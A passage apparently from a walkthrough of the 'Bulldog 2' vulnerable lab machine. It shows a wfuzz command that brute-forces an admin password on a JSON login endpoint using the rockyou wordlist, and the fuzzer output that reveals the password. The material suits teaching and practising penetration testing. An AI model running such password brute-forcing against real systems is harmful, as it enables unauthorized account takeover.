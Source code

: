 ![Dashboard](/assets/images/posts/bulldog-2-walkthrough/4cc20ae3.png)

```
# wfuzz \
-w /usr/share/wordlists/rockyou.txt \
-H "Content-Type: application/json" \
-H "Referer: http://192.168.30.128/dashboard" \
-d "{\"username\":\"admin\", \"password\": \"FUZZ\"}" \
-t 20 \
--hh 40 \
http://192.168.30.128/users/linkauthenticate
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.30.128/users/linkauthenticate
Total requests: 14344392

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

023194:  C=400     10 L	      60 W	   1061 Ch	  "!"£$%^"
037686:  C=200      0 L	       2 W	     40 Ch	  "foreverfriends"^C
Finishing pending requests...
```
